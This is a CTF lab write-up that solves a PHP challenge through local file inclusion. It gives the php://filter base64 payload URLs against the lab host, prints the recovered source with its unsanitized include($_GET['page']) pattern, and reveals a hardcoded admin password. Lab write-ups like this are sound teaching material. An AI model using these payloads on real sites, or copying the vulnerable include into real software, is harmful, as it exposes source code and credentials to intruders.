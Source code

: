 ```yaml
---
title: Simple Web 0x08(Lab - My First Meow Website)
tags: [NTUSTWS, CTF, Web]

---
```


# Simple Web 0x08(Lab - My First Meow Website)
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:8400/
Target: Login as Admin

## Background
[PHP 偽協議 (一) ](https://ithelp.ithome.com.tw/articles/10245020)
[Web Security 0x1](https://youtu.be/_hasOTGximc?t=2855)

## Exploit
1. Observe
According to the URL, `http://h4ck3r.quest:8400/?page=inc/home`, it might have `LFI` problem.
2. Use `php://filter` to read page
    `http://h4ck3r.quest:8400/?page=php://filter/convert.base64-encode/resource=inc/home`
    :::spoiler page source code
    ```php=
    <!DOCTYPE html>
    <html lang="en">

    <head>
        <meta charset="UTF-8">
        <meta http-equiv="X-UA-Compatible" content="IE=edge">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>Meow</title>
        <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bulma@0.9.2/css/bulma.min.css">
    </head>

    <body>
        <nav class="navbar is-dark" role="navigation" aria-label="main navigation">
            <div class="navbar-brand">
                <a class="navbar-item" href="/?page=inc/home">🐱</a>
            </div>

            <div id="navbarBasicExample" class="navbar-menu">
                <div class="navbar-start">
                    <a class="navbar-item" href="/?page=inc/home">
                        Home
                    </a>
                    <a class="navbar-item" href="/?page=inc/about">
                        About
                    </a>
                    <a class="navbar-item" href="/admin.php">
                        Admin
                    </a>
                </div>
            </div>
        </nav>

        <div class="container" style="margin-top: 1em;">
            <?php
            if (isset($_GET['page']))
                include($_GET['page'] . ".php");
            else
                include("inc/home.php");
            ?>
        </div>
    </body>

    </html>
    ```
    :::
3. Observe page source code
We know that `admin.php` is under `/` directory.
`http://h4ck3r.quest:8400/?page=php://filter/convert.base64-encode/resource=admin`
    :::spoiler admin source code
    ```php=
    <h1>Admin Panel</h1>
    <form>
        <input type="text" name="username" value="admin">
        <input type="password" name="password">
        <input type="submit" value="Submit">
    </form>

    <?php
    $admin_account = array("username" => "admin", "password" => "kqqPFObwxU8HYo8E5QgNLhdOxvZmtPhyBCyDxCwpvAQ");
    if (
        isset($_GET['username']) && isset($_GET['password']) &&
        $_GET['username'] === $admin_account['username'] && $_GET['password'] === $admin_account['password']
    ) {
        echo "<h1>LOGIN SUCCESS!</h1><p>".getenv('FLAG')."</p>";
    }

    ?>
    ```
    :::
4. Then we get admin password is: `kqqPFObwxU8HYo8E5QgNLhdOxvZmtPhyBCyDxCwpvAQ`. Then we got flag!!!